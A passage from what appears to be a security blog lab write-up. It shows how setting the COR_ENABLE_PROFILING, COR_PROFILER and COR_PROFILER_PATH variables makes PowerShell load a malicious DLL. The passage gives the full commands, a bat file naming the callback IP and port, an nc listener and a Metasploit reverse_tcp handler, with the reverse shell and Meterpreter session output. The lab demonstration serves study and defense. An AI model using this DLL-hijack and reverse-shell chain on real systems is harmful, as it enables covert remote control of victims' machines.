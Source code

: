 I’ll start a `nc` listener on my Kali box, and then run the following from a
cmd terminal on my Windows VM:

    
    
    C:\Users\0xdf\Desktop>set "COR_ENABLE_PROFILING=1"
    C:\Users\0xdf\Desktop>set "COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}"
    C:\Users\0xdf\Desktop>set "COR_PROFILER_PATH=C:\users\0xdf\desktop\revshell.dll"
    C:\Users\0xdf\Desktop>powershell
    

`powershell` just hangs, but my listener connects:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.1.1.153.
    Ncat: Connection from 10.1.1.153:54719.
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
    
    C:\Users\0xdf\Desktop>
    

### Beryllium

I can do the same thing with the `Beryllium.dll`. I’ll prep Metasploit on my
Kali host:

    
    
    root@kali# msfdb run
    ...[snip]...
    msf5 > handler -H eth0 -P 136 -p windows/x64/meterpreter/reverse_tcp
    [*] Payload handler running as background job 0.
    
    [*] Started reverse TCP handler on 10.1.1.41:136
    

Now, back in cmd, I’ll run the following bat file:

    
    
    set "COR_ENABLE_PROFILING=1" 
    set "COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}" 
    set "COR_PROFILER_PATH=C:\users\0xdf\desktop\Beryllium.dll" 
    set "PORT=136"
    set "IP=10.1.1.41"
    powershell 
    

When I run `cmd /c a.bat`, my terminal disappears. And I get a connection at
Metasploit:

    
    
    [*] Meterpreter session 1 opened (10.1.1.41:136 -> 10.1.1.153:54720) at 2019-03-12 21:20:54 -0400
    msf5 > sessions -i 1
    [*] Starting interaction with 1...
    